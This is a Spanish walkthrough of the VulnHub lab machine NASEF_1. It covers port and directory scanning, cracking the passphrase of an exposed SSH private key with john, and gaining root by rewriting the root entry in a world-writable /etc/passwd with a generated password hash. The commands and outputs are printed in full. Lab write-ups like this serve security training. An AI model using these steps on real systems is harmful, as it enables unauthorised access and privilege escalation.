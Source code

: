 ```yaml
---
icon: flag
---
```


# NASEF\_1 LOCATING TARGET VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-13 10:05 CEST
Nmap scan report for 192.168.5.134
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8f:ec:55:07:54:78:a4:ee:8e:d7:95:41:62:74:77:8e (RSA)
|   256 7c:67:19:8b:bf:73:b4:7f:82:64:df:d5:7b:ad:34:a4 (ECDSA)
|_  256 a1:e7:61:a1:cc:6b:16:10:1c:71:fa:54:ed:89:fd:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:CE:93:AA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.134/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/goodmath.txt         (Status: 200) [Size: 2571]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a ese `.txt` veremos lo siguiente...

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6A4D21879E90C5E2F448418E600FE270

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
-----END RSA PRIVATE KEY-----

Here is your key agentr
```

Vemos que es una `id_rsa` por lo que se ve tiene contraseña, por lo que haremos lo siguiente...

```shell
ssh2john id_rsa > sshkey
```

```shell
john --wordlist=<WORDLIST> sshkey
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
reading          (id_rsa)     
1g 0:00:00:00 DONE (2024-07-13 10:15) 2.173g/s 6678p/s 6678c/s 6678C/s kikay..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que la contraseña es `reading` por lo que haremos lo siguiente...

```shell
chmod 600 id_rsa
```

Vemos que en el `.txt` nos dijo un nombre por lo que probaremos con ese nombre `agentr`...

```shell
ssh -i id_rsa agentr@<IP>
```

Metemos la contraseña del `id_rsa` y ya estariamos dentro con el usuario `agentr`...

Leeremos la flag del la `/home`...

> user.txt (flag1)

```
[Arabic]
الإحداثيات الأولى هي 25 درجة شمالا

[English]
The First coordinate is 25.0000° N
```

Si vemos los permisos del siguiente archivo...

```shell
ls -la /etc/passwd
```

Info:

```
-rw-r--rw- 1 root root 1763 Dec 24  2020 /etc/passwd
```

Vemos que podemos escribir, por lo que haremos lo siguiente...

Nos descargaremos la siguiente herramienta creada por mi (@d1se0) en github...

URL = https://github.com/D1se0/passwordGenerator

```shell
python3 passwordGenerator.py -l 3 -e unix_passwd
```

o

```shell
passwordGenerator -l 3 -e unix_passwd
```

Info:

```
 ____                        _  ____                                      
 |  _ \  __ _ ___  ___       | |/ ___|  __ _ _ __ ___   __ _ _ __ _   _ ___ 
 | | | |/ _` / __|/ _ \  _   | | |  _  / _` | '_ ` _ \ / _` | '__| | | / __|
 | |_| | (_| \__ \  __/ | |__| | |_| | (_| | | | | | | (_| | |  | |_| \__ \
 |____/ \__,_|___/\___|  \____/ \____|\__,_|_| |_| |_|\__,_|_|   \__,_|___/
passwordGenerator v1.0
by Diseo (@d1se0) 

Contraseña Generada: v4l

Contraseña codificada (UNIX_PASSWD): $6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1
```

Generara una contraseña aleatoria poniendo el numero de letras que quiere que tenga en mi caso solo 3 para que sea corta y codificarlo en `unix_passwd`, por lo que ese codigo codificado es lo que tenemos que pegar en el `/etc/passwd` de la siguiente manera...

```shell
nano /etc/passwd

#Dntro del nano
root:$6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1:0:0:root:/root:/bin/bash
```

Quedara algo tal que asi, por lo que lo guardamos e intentamos ser `root` poniendo esa contraseña generada en mi caso `v4l`...

```shell
su root
```

Y si metemos la contraseña sin codificar veremos que seremos `root`...

```shell
id
```

Info:

```
uid=0(root) gid=0(root) groups=0(root)
```

Por lo que leeremos la flag...

> root.txt (flag2)

```
[ARABIC]
الإحداثيات الثانية هي 71 درجة غربا


[ENGLISH]
The Second coordinate is 71.0000° W
```
